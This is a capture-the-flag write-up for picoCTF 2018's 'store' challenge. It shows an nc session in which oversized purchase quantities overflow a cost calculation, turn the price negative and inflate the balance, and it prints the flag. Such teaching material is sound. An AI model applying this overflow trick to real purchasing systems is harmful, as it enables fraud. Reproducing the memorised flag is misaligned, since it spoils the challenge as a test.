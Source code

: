 # store
General Skills - 400 points

## Challenge 
> We started a little [store](store), can you buy the flag? [Source](store.c). Connect with 2018shell2.picoctf.com 5795.

## Hint
> Two's compliment can do some weird things when numbers get really big!

## Solution


Vulnerability is at following line 
	
	total_cost = 1000*number_flags;

Enter a large enough integer to make total_cost overflow to a negative amount

---

	$ nc 2018shell2.picoctf.com 5795
	Welcome to the Store App V1.0
	World's Most Secure Purchasing App

	[1] Check Account Balance

	[2] Buy Stuff

	[3] Exit

	 Enter a menu selection
	2

---

	Current Auctions
	[1] I Can't Believe its not a Flag!
	[2] Real Flag
	1
	Imitation Flags cost 1000 each, how many would you like?
	2147483647

	Your total cost is: -1000

	Your new balance: 2100

---

	Welcome to the Store App V1.0
	World's Most Secure Purchasing App

	[1] Check Account Balance

	[2] Buy Stuff

	[3] Exit

	 Enter a menu selection
	2

---

	Current Auctions
	[1] I Can't Believe its not a Flag!
	[2] Real Flag
	1
	Imitation Flags cost 1000 each, how many would you like?
	2147470000

	Your total cost is: -13648000

	Your new balance: 13650100

---

	Welcome to the Store App V1.0
	World's Most Secure Purchasing App

	[1] Check Account Balance

	[2] Buy Stuff

	[3] Exit

	 Enter a menu selection
	2

---

	Current Auctions
	[1] I Can't Believe its not a Flag!
	[2] Real Flag
	2
	A genuine Flag costs 100000 dollars, and we only have 1 in stock
	Enter 1 to purchase1
	YOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_dbd42a50}


## Flag

	picoCTF{numb3r3_4r3nt_s4f3_dbd42a50}
